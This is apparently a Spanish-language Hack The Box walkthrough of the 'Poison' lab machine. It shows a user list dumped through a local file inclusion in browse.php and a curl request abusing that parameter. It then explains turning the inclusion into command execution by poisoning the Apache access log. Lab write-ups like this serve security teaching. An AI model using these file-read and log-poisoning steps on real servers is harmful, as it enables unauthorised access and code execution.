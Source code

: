 ```bash
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

## Log Poisoning

- Vemos que se esta empleando `FreeBSD` <https://www.freebsd.org/>.

- Para convertir un LFI a un RCE podemos hacer un `Log Poisoning` para ver los logs tenemos que ser capaces de ver esta ruta `/var/log/apache2`.

```bash
❯ curl -s 'http://10.10.10.84/browse.php?file=/var/log'
<br />
<b>Warning</b>:  include(/var/log): failed to open stream: Resource temporarily unavailable in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '/var/log' for inclusion (include_path='.:/usr/local/www/apache24/data') in <b>/usr/local/www/apache24/data/browse.php</b> on line <b>2</b><br />
```

- En este caso se esta empleando `FreeBSD` y la ruta donde están los logs es en `/var/log/httpd-access.log` hay se guardan todas las solicitudes que recibe cada que intentamos interactuar con el servidor o la maquina todo se va a guardar allí si nosotros somos capaces de ver el contenido de ese archivo podemos tratar de hacer un `Log Poisoning` que esto lo que hace es envenenar los logs de apache y poder inyectar comandos <https://medium.com/@josewice7/lfi-to-rce-via-log-poisoning-db3e0e7a1cf1>.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/poison/3.png">
</p>
